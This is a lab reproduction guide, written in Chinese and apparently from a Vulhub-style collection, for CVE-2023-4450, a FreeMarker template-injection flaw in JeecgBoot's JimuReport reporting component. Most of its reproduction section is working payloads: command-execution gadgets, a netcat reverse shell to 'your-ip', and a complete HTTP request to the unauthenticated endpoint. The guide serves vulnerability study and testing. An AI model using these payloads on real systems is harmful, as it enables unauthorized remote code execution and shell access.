

# JeecgBoot SSTI CVE-2023-4450

## 漏洞描述

JeecgBoot 是一个开源的低代码开发平台，Jimureport 是低代码报表组件之一

当前漏洞在 1.6.1 以下的 Jimureport 组件库中都存在. 由于未授权的 API `/jmreport/queryFieldBySql` 使用了 freemarker 解析 SQL 语句从而导致了 RCE 漏洞的产生.

参考链接：

- https://www.oscs1024.com/hd/MPS-4hzd-mb73
- https://www.reajason.eu.org/writing/freemarkersstimemshell
- https://github.com/jeecgboot/JimuReport

## 环境搭建

Vulhub 执行如下命令启动 3.5.3 版本的 JeecgBoot 后端:

```
docker compose up -d
```

在服务启动后，可访问 `http://your-ip:8080/jeecg-boot/jmreport/list` 积木工作台页。



## 漏洞复现

点击新建图表 → 选择 SQL 数据集 → 报表 SQL 中填写 Payload → 点击 SQL 解析。

poc：

```
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("nc your-ip 8888 -e sh")}
```

```
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc").start ()}
```

others（https://mp.weixin.qq.com/s/eT32vnk_8anS3e-2B287cA）：

```
{"sql":"<#assign value=\"freemarker.template.utility.Execute\"?new()>${value(\"calc.exe\")}","dbSource":"","paramArray":"","type":""}

#sql的其它可用poc：
<#assign 
value=\"freemarker.template.utility.ObjectConstructor\"?new()>${value(\"java.lang.ProcessBuilder\",\"calc.exe\").start()}

#jython的调用需要满足目标类路径中包含org.python的包，本地复现时引入jython-standalone可正常执行命令
<#assign 
value=\"freemarker.template.utility.JythonRuntime\"?new()><@value>import os;os.system(\"calc.exe\")</@value>
```

反弹 shell，使用 nc 开启监听端口 8888：

```
 nc -vvl 8888
```

通过 `http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql` sql 参数传递 freemarker payload。

```
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8088
Content-Type: application/json

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"nc your-ip 8888 -e sh\")}",
    "type": "0"
}
```
